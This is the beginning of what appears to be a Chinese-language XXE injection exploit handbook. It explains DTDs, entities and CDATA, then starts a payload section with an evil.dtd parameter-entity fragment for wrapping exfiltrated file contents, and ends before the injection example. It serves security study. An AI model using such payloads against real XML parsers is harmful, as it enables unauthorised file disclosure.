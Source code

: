 # EXP手册-XXE Injecton(XML External Entity Injection)
## 0x00 基础知识
### 1.概念
XXE(XML External Entity),即是XML外部实体注入攻击.漏洞是在对不安全的外部实体数据进行处理时引发的安全问题。   
关键在DTD的引用。   
实例1：    
```
<?xml version="1.0"?>//这一行是 XML 文档定义
<!DOCTYPE message [ 
<!ELEMENT message (receiver ,sender ,header ,msg)> \\声明的字段对应xml结构中字段
<!ELEMENT receiver (#PCDATA)>
<!ELEMENT sender (#PCDATA)>
<!ELEMENT header (#PCDATA)>
<!ELEMENT msg (#PCDATA)>    
```
```
<message>
<receiver>Myself</receiver>
<sender>Someone</sender>
<header>TheReminder</header>
<msg>This is an amazing book</msg>
</message>
```
实例2：  
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >//定义元素为 ANY 说明接受任何元素
<!ENTITY xxe "test" >]>
```
```
<creds>
<user>&xxe;</user>
<pass>mypass</pass>
</creds>
```

DTD(The document type definition)，即是文档类型定义，可定义合法的XML文档构建模块。它使用一系列合法的元素来定义文档的结构。DTD 可被成行地声明于 XML 文档中，也可作为一个外部引用。   
```
<!ENTITY 实体名 SYSTEM url > //外部实体
<!ENTITY 实体名 实体的值 > //内部实体
```
用 &实体名; 引用的实体   
用 % 实体名，引用参数实体，只能在 DTD 中使用 %实体名;

### 2. 为什么使用CDATA？——读取文件有异常字符报错
有些内容可能不想让解析引擎解析执行，而是当做原始的内容处理，用于把整段数据解析为纯字符数据而不是标记的情况包含大量的 <> & 或者
" 字符，CDATA节中的所有字符都会被当做元素字符数据的常量部分，而不是 xml标记   
```
\\XML解析忽略
<![CDATA[
XXXXXXXXXXXXXXXXX 
]]>
```
#### Payload
evil.dtd
```
<?xml version="1.0" encoding="UTF-8"?> 
<!ENTITY all "%start;%goodies;%end;">
```
注入内容：   
```
```